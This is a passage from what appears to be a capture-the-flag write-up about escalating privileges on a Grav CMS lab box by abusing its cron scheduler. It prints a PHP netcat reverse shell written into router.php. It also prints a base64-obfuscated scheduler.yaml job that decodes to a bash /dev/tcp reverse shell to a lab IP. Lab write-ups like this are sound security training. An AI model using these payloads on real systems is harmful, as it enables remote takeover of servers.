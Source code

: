The cron job runs once a minute so we should know fairly quickly if that worked or not.

...

After a few minutes, we accept that did not work and move on to other places. (Reverting `index.php` back to what it was)

14) We try a different php file:

```
www-data@gravity:~/html/grav-admin/system$ cp router.php router.php.bak
cp router.php router.php.bak
www-data@gravity:~/html/grav-admin/system$ echo '<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>' > router.php
<&1|nc 192.168.49.51 443 >/tmp/f"); ?>' > router.php
www-data@gravity:~/html/grav-admin/system$ cat router.php
cat router.php
<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>
```

we play the waiting game again...

... that didn't work either.

15) We'll have to read the docs :tm: at [https://learn.getgrav.org/16/advanced/scheduler](https://learn.getgrav.org/16/advanced/scheduler).

Looks like this scheduler thing has a config file in `/user/config/scheduler.yaml`

```
www-data@gravity:~/html/grav-admin/user/config$ cat scheduler.yaml
cat scheduler.yaml
custom_jobs:
  ncefs:
    command: /usr/bin/php
    args: '-r eval(base64_decode("Lyo8P3BocCAvKiovCmZpbGVfcHV0X2NvbnRlbnRzKCcvdG1wL3Jldi5zaCcsYmFzZTY0X2RlY29kZSgnWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqVXhMemd3SURBK0pqRT0nKSk7Y2htb2QoJy90bXAvcmV2LnNoJywwNzU1KTtzeXN0ZW0oJ2Jhc2ggL3RtcC9yZXYuc2gnKTsK"));'
    at: '* * * * *'
    output: null
    output_mode: append
status:
  ncefs: enabled
```

oh... this is... funny...

So decoding that base64 string gives us:

```
?? $ echo 'Lyo8P3BocCAvKiovCmZpbGVfcHV0X2NvbnRlbnRzKCcvdG1wL3Jldi5zaCcsYmFzZTY0X2RlY29kZSgnWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqVXhMemd3SURBK0pqRT0nKSk7Y2htb2QoJy90bXAvcmV2LnNoJywwNzU1KTtzeXN0ZW0oJ2Jhc2ggL3RtcC9yZXYuc2gnKTsK' | base64 -d
/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjUxLzgwIDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');
```
